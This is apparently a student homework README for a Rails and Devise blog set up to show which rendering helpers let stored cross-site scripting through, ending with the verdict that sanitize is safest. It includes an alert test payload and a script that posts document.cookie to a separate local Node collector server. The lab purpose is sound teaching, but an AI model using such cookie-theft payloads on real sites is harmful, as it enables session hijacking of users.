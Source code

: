 #Homework
##Steps how to create a project to demonstrate how XSS works using rails.

###Create new project with User and Blog model
First This is how we start create the new project by typing this in you terminal:

```bash
$ rails new hm2
$ cd hm2
```
>***Make sure that your directory is correct!!***

After that you have to put devise gem in **Gemfile**:

```ruby
gem 'devise'
```
Then type this in you terminal:

```bash
$ rails generate devise:install
$ rails generate devise USER
$ rake db:migrate
```
After that create view controller model by using scaffolr, and type it in you terminal:

```bash
$ rails g scaffold Blog content:text user:references
$ rake db:migrate
```

>If you finish until this step, you will get project with model and user.

Then Start server:

```ruby
$ rails s
```

###User Authenticate

go to **app/controllers/application_controller.rb** then add this:

```ruby
before_action :authenticate_user!
```
It will become like this:

```ruby
class ApplicationController < ActionController::Base
  # Prevent CSRF attacks by raising an exception.
  # For APIs, you may want to use :null_session instead.
  protect_from_forgery with: :exception
  before_action :authenticate_user!
end

```
###Set up root
so it will make user to login first before to add something. After that change root in **config/routes.rb** like this:

```ruby
root to: 'blogs#index'
```
then it will become like:

```ruby
Rails.application.routes.draw do
  resources :blogs
  devise_for :users
  root to: 'blogs#index'
end
```
###Add Sign out & Change User to User ID
After that i put sign out button to the page so they can sign out by typing this in to **app/views/blogs/index.html.erb**:

```ruby
<a href=""><%= link_to "Sign Out", destroy_user_session_path, method: :delete %><br></a>
```
then also change:

```ruby
<%= blog.user %>
```
to

```ruby
<%= blog.user_id %>
```

> This to make you see the user ID



#Cross-site scripting (XSS)
Try rendering content as HTML instead of plain text by using this ```raw```,```<%== %>```, ```sanitize```, or ```.html_safe ```

To Check Which render function is the safest i put this

```javascript
<script>
alert("hahahah");
</script>
```
into the content box when i create the new content

![pic0](app/assets/images/img0.png)

First, when i add ```raw``` as in the pic:
![pic1](app/assets/images/img1.png)

Then it will show like this the pop up message pop with the ```"hahaha"```

![pic2](app/assets/images/img2.png)



Second, when i add ```<%== %>``` as in the pic:
![pic3](app/assets/images/img3.png)

Then it shows this the pop up message pop with the ```"hahaha"```

![pic4](app/assets/images/img4.png)



Third, when i add ```sanitize``` as in the pic:
![pic3](app/assets/images/img5.png)

After that it will not pop up anything, it will remove any unwanted  data for example here ``` <script></script>``` out and normalize it to the correct form as in the pic:

![pic4](app/assets/images/img6.png)


Last, when i add ```.html_safe ``` as in the pic:
![pic3](app/assets/images/img3.png)

Then it will show this the pop up message pop with the ```"hahaha"```

![pic4](app/assets/images/img4.png)

##Create another using node
first create a folder to keep node for me i name the folder as "xxs" then install:

```bash
$ npm install
```

to run node use command:

```bash
$ node index.js
```

I also add this into **package.json**:

```json
{
  "name": "xss_server",
  "version": "1.0.0",
  "description": "",
  "dependencies": {
    "body-parser": "^1.15.0",
    "express": "^4.13.4",
    "lowdb": "^0.12.5"
  }
}

```
to send data i put this into content:

```java
<script type="text/javascript">
$.post( "http://localhost:5000/boss", {cookie_data: document.cookie});
</script>
```

>###You can see the cookie in the terminal

##Answer the Question

So to answer the question that Which render function is the safest?, i will answer that using ```sanitize``` is the safest because it will remove any unwanted  data out and normalize it to the correct form.
